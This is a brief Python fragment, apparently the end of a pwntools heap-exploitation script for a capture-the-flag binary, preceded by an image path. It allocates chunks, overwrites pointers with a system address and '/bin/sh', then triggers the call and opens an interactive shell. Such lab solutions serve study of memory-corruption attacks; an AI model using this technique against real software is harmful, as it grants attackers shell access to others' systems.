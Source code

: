 ```python
build(0x40, 'aaaaaaaaaa')
build(0x48, "/bin/sh".ljust(0x20, '\x00') + p64(heap_base + 0x10)*4 + p64(system_addr))

#gdb.attach(p, open('debug'))
select('/bin/sh', 2)
p.interactive()
```

